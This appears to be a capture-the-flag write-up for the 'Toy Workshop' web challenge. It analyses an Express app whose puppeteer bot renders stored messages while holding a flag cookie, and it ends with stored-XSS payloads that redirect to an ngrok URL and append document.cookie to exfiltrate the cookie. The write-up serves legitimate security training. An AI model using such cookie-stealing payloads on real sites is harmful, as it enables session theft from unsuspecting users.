





# Toy Workshop

## Challenge Info
```` text
The work is going well on Santa's toy workshop but we lost contact with the manager in charge! 
We suspect the evil elves have taken over the workshop, can you talk to the worker elves and find out?
````
## Challenge Files 
We are provided a .zip file with the application files. 

## Let's go
When opening the given ip:port after clicking on one of the elves an input box opens up where we can leave a message.

Trying follwing inputs will return `Your message is delivered successfully!`

- `hello`
- `"`
- `<script>alert("hello")</script>` 




In our Network tab we will see these are handled as `POST` requests that gets submitted to the `/api/submit` endpoint. 


## Given files 
Time to take a look inside the challenge files to learn more about the app and understand its flow.

I always start with the `index` file (`index.js` in this case) and look into the included files one by one.

That leads to the `routes/index.js` where we will find the `POST` handling.

Further our input is added into the database and another function  `bot.readQueries(db)` is called before the known response is send.    


```` js 
--- snip ---
router.post('/api/submit', async (req, res) => {

	const { query } = req.body;
	if(query){
		return db.addQuery(query)
			.then(() => {
				bot.readQueries(db);
				res.send(response('Your message is delivered successfully!'));
			});
	}
	return res.status(403).send(response('Please write your query first!'));
});
--- snip ---
````


Now have a look inside the `bot.js`. 

We see that the flag is stored in a cookie while the app is invoked internally via the node library ``puppeteer`` (which acts as a headless browser) before requesting the `queries` endpoint.  

```` js
const puppeteer = require('puppeteer');

const browser_options = {
	headless: true,
	args: [ --- snip --- ]
 };

const cookies = [{
	'name': 'flag',
	'value': 'HTB{f4k3_fl4g_f0r_t3st1ng}'
}];

const readQueries = async (db) => {
		const browser = await puppeteer.launch(browser_options);
		let context = await browser.createIncognitoBrowserContext();
		let page = await context.newPage();
		await page.goto('http://127.0.0.1:1337/');
		await page.setCookie(...cookies);
		await page.goto('http://127.0.0.1:1337/queries', {
			waitUntil: 'networkidle2'
		});
		await browser.close();
		await db.migrate();
};
````


Back to `routes/index.js` to understand what this endpoint is about. 

We see that it returns our stored input from the database, but only for requests from `localhost` or `127.0.0.1`.


```` js 
--- snip ---
router.get('/queries', async (req, res, next) => {
	if(req.ip != '127.0.0.1') return res.redirect('/');

	return db.getQueries()
		.then(queries => {
			res.render('queries', { queries });
		})
		.catch(() => res.status(500).send(response('Something went wrong!')));
});
--- snip ---
````

## Obtaining the flag

Two questions arise:

- What do we need to have stored in the database to receive the cookie? 
- How does this information get to us?

We can make ourselves accessible to the WWW with the help of cli tools like `ngrok` or web apps like https://webhook.site.

```` terminal 
$ ngrok 6666

ngrok by @inconshreveable                                                (Ctrl+C to quit) 

Session Status           online  
Session Expires          1 hour, 59 minutes 
Version                  2.3.40  
Region                   United States (us) 
Web Interface            http://127.0.0.1:4040
Forwarding               http://xxxx-xx-xx-xxx-xx.ngrok.io -> http://localhost:6666
Forwarding               https://xxxx-xx-xx-xxx-xx.ngrok.io -> http://localhost:6666
                                                                                                                     
Connections              ttl     opn     rt1     rt5     p50     p90
                         0       0       0.00    0.00    0.00    0.00
````

This gives us a publicly available URL (redacted) and a locally available web interface to see the logged requests. 

Let's see if we get anything back when we make a request to ourselves:

`<script>window.location="http://xxxx-xx-xx-xxx-xx.ngrok.io"</script>`





Finally, we try to get the values of the cookie using a self-selected `GET` paramter `cookie` and the JavaScript attribute `document.cookie`

`<script>window.location="http://xxxx-xx-xx-xxx-xx.ngrok.io?cookie="+document.cookie</script>`




